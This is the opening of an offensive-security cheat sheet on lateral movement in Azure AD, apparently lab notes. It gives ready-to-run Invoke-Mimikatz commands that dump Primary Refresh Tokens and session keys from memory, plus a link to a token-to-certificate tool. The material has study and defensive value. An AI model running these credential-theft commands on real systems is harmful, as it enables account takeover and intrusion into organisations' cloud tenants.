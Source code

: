 # Lateral movement

## Azure AD machine --> Azure (or another Azure AD Machine)

* [Pass the certificate](#Pass-the-certificate)
* [Pass the PRT](#Pass-the-PRT)

## Azure AD --> On-prem

* [Intune](#Intune)
* [Application proxy abuse](#Application-proxy-abuse)

## On-Prem --> Azure AD

* [Azure AD Connect](#Azure-AD-Connect)
  * [Password Hash Sync (PHS) Abuse](#Password-Hash-Sync-Abuse)
  * [Pass Through Authentication (PTA) Abuse](#Pass-Through-Authentication-Abuse)
  * [Federation (ADFS)](#Federation-ADFS)

## Azure AD --> On-prem Attacks

### Pass the certificate

* To go from Azure AD machine to other Azure AD machine if the user has administrative access to other machines.

#### Check if machine is Azure AD Joined

* Check for IsDeviceJoined : YES

```powershell
dsregcmd /status
```

#### Extract PRT, Session key (keyvalue) and Tenant ID

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'
```

#### Extract context key, clearkey and derived key

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

#### Request a certificate from PRT

* <https://github.com/morRubin/PrtToCert>

* Code is modified in the lab
